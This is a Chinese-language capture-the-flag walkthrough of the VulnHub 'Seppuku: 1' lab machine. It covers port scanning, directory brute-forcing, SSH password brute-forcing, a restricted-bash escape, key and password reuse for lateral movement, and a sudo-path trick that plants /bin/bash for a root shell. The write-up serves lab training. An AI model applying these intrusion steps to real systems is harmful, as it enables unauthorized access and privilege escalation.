 # Seppuku: 1

2024-5-22 https://www.vulnhub.com/entry/seppuku-1,484/

difficulty: Intermediate to Hard

## IP

192.168.10.186

## Scan

Open Port -> 21,22,80,139,445,7080,7601,8088

```
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 cd55a8e40f28bcb2a67d4176bb9f71f4 (RSA)
|   256 16fa29e4e08a2e7d37d26f42b2dce922 (ECDSA)
|_  256 bb74e897fa308ddaf95c99f0d9248ad5 (ED25519)
80/tcp   open  http        nginx 1.14.2
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Restricted Content
|_http-server-header: nginx/1.14.2
|_http-title: 401 Authorization Required
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
7080/tcp open  ssl/http    LiteSpeed httpd
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|   h2
|   spdy/3
|   spdy/2
|_  http/1.1
| ssl-cert: Subject: commonName=seppuku/organizationName=LiteSpeedCommunity/stateOrProvinceName=NJ/countryName=US
| Not valid before: 2020-05-13T06:51:35
|_Not valid after:  2022-08-11T06:51:35
|_http-server-header: LiteSpeed
|_http-title:  404 Not Found
7601/tcp open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Seppuku
8088/tcp open  http        LiteSpeed httpd
|_http-server-header: LiteSpeed
|_http-title: Seppuku
```

开放端口较多，可能有坑。

21 ftp 端口不能匿名登陆。

看看 smb 有什么：

```
enum4linux -a 192.168.10.186

S-1-22-1-1000 Unix User\seppuku (Local User)
S-1-22-1-1001 Unix User\samurai (Local User)
S-1-22-1-1002 Unix User\tanto (Local User)
```

枚举到了 linux 中的 3 个用户。

先看看 80 上的 web 有什么, http://192.168.10.186/ 访问后，需要 http-basic 认证，我们没有用户名和密码，暂时没啥用。

7080 也是个 web 服务 ssl 端口，gobuster 扫描全部返回 403，估计是个坑。

8088 使用 gobuster 扫描看看，能有什么信息：

```
http://192.168.10.186:8088/index.html           (Status: 200) [Size: 171]
http://192.168.10.186:8088/cgi-bin              (Status: 301) [Size: 1260] [--> http://192.168.10.186:8088/cgi-bin/]
http://192.168.10.186:8088/docs                 (Status: 301) [Size: 1260] [--> http://192.168.10.186:8088/docs/]
http://192.168.10.186:8088/index.php            (Status: 200) [Size: 163188]
http://192.168.10.186:8088/blocked              (Status: 301) [Size: 1260] [--> http://192.168.10.186:8088/blocked/]
```

http://192.168.10.186:8088/index.php 是一个模拟了 ssh 登陆的页面，需要输入用户名和密码。

7601 端口也是个 apache 服务，使用 gobuster 进行扫描：

```
http://192.168.10.186:7601/a                    (Status: 301) [Size: 319] [--> http://192.168.10.186:7601/a/]
http://192.168.10.186:7601/c                    (Status: 301) [Size: 319] [--> http://192.168.10.186:7601/c/]
http://192.168.10.186:7601/b                    (Status: 301) [Size: 319] [--> http://192.168.10.186:7601/b/]
http://192.168.10.186:7601/t                    (Status: 301) [Size: 319] [--> http://192.168.10.186:7601/t/]
http://192.168.10.186:7601/r                    (Status: 301) [Size: 319] [--> http://192.168.10.186:7601/r/]
http://192.168.10.186:7601/d                    (Status: 301) [Size: 319] [--> http://192.168.10.186:7601/d/]
http://192.168.10.186:7601/f                    (Status: 301) [Size: 319] [--> http://192.168.10.186:7601/f/]
http://192.168.10.186:7601/e                    (Status: 301) [Size: 319] [--> http://192.168.10.186:7601/e/]
http://192.168.10.186:7601/h                    (Status: 301) [Size: 319] [--> http://192.168.10.186:7601/h/]
http://192.168.10.186:7601/w                    (Status: 301) [Size: 319] [--> http://192.168.10.186:7601/w/]
http://192.168.10.186:7601/q                    (Status: 301) [Size: 319] [--> http://192.168.10.186:7601/q/]
http://192.168.10.186:7601/database             (Status: 301) [Size: 326] [--> http://192.168.10.186:7601/database/]
http://192.168.10.186:7601/production           (Status: 301) [Size: 328] [--> http://192.168.10.186:7601/production/]
http://192.168.10.186:7601/keys                 (Status: 301) [Size: 322] [--> http://192.168.10.186:7601/keys/]
http://192.168.10.186:7601/secret               (Status: 301) [Size: 324] [--> http://192.168.10.186:7601/secret/]
http://192.168.10.186:7601/stg                  (Status: 301) [Size: 321] [--> http://192.168.10.186:7601/stg/]
```

http://192.168.10.186:7601/w/password.lst 存在一个像是密码字典的文件，下载到 kali 上。

http://192.168.10.186:7601/production/ 显示的是一个 Siimple 的 cms，经过验证，没找到这个 CMS 有什么漏洞。

http://192.168.10.186:7601/keys/ 显示了两个 ssh 的 key 文件，不知道能不能用，先下载到 kali 上。

http://192.168.10.186:7601/secret/ 显示了一堆文件，展示的是什么 shadow 和 passwd 文件，经过验证，这两个文件都是坑，没用。

尝试使用上面获得的 3 个用户和 password.lst，进行 ssh 爆破，得到了一个用户凭据:login: seppuku password: eeyoree

使用此用户，登陆 ssh，在 home 目录发现.passwd 文件：

```
seppuku@seppuku:~$ cat .passwd
12345685213456!@!@A
```

cd 时，发现 bash 被限制：

```
seppuku@seppuku:~$ cd /home
-rbash: cd: restricted
```

重新登陆 ssh，设置 bash：

```
ssh seppuku@192.168.10.186 -t "bash --noprofile"
```

登陆后，获得了正常的交互式 bash。

开始进行系统枚举：

/home 目录中的其他两个用户 samurai 和 tanto 本地文件夹中没有有用信息。cap、crontab、suid 中没有可利用信息。

sudo 权限：

```
(ALL) NOPASSWD: /usr/bin/ln -sf /root/ /tmp/
```

执行上面命令，可以将 /root/ 目录软连接到/tmp 上，但是执行后，在/tmp 中，也不能 cd 到 root，应该是个坑，估计这个用户应该没有其他路径提权到 root。

使用上面得到的密码，尝试切换到其他两个用户，看看密码对不对，经过尝试 samurai 的密码是 12345685213456!@!@A

看看 samurai 有没有提权到 root 的路径，还是老问题，bash 被限制，重新登陆 ssh：

```
ssh samurai@192.168.10.186 -t "bash --noprofile"
```

登陆后，sudo -l 发现了另外的线索：

```
(ALL) NOPASSWD: /../../../../../../home/tanto/.cgi_bin/bin /tmp/*
```

但是 /../../../../../../home/tanto/.cgi_bin/bin 这个文件不存在，而且也没权限在 tanto 目录中创建这个文件，估计还是坑。

现在要想办法切换到 tanto 用户，还记得 http://192.168.10.186:7601/keys/ 这里现实了 2 个私钥，看看能不登陆 tando 吧，2 个文件内容一样，用其中一个，权限改成 600.

登陆成功：

```
ssh -i private.txt tanto@192.168.10.186 -t "bash --noprofile"
```

这时，就可以创建 /home/tanto/.cgi_bin/bin 文件：

```
mkdir -p /home/tanto/.cgi_bin && echo '/bin/bash' > /home/tanto/.cgi_bin/bin && chmod +x /home/tanto/.cgi_bin/bin
```

然后在回到 samurai 用户，执行 sudo：

```
samurai@seppuku:/tmp$ sudo /../../../../../../home/tanto/.cgi_bin/bin /tmp/*
root@seppuku:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@seppuku:/tmp# cd /root
root@seppuku:~# ls
root.txt
root@seppuku:~# cat root.txt
{SunCSR_Seppuku_2020_X}
```

这靶场就是一直在绕你，绕来绕去.....

